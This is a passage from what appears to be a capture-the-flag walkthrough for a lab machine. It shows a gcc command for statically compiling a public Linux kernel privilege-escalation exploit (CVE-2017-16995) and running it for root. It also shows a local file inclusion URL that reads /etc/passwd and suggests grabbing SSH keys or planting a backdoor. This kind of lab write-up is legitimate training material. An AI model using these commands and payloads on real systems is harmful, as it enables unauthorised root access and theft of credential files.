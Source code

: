 10. So we download the exploit from exploitdb and Here's a little trick to save compiling time on remote machine.<br />
Instead of uploading and compiling the exploit on remote machine, we can use `--static` in gcc to make a binary that's useable everywhere.<br />
    `gcc --static cve-2017-16995.c -o cve-2017-16995 && chmod +x cve-2017-16995 `<br />
11. Now just upload the binary to the remote box, and run it to get root.
<br />
#### Now you are root, Defend your title.<br />
P.S. If you are locked out and forgot to make a backdoor, here's food for thought:<br />
There's LFI on this address.<br />
`http://lion.thm:5555/?page=php://filter/convert.base64-encode/resource=../../../../etc/passwd`<br />
where, lion.thm is the IP of machine in hosts file. ;) (Maybe you can get id_rsa)

 
